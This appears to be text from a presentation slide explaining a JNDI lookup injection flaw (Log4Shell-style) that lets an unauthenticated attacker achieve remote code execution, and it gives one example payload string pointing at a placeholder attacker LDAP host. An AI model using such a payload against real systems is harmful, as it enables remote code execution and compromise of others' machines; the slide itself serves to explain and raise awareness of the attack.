

# Attack Details
This allows an unauthenticated attacker to perform remote code execution when crafting a malicious string through various inputs in the application or affected product. An example of this string that may be used by researchers and attackers alike is through the Java Naming and Directory Interface:

{jndi:ldap://[attacker site]/endpoint}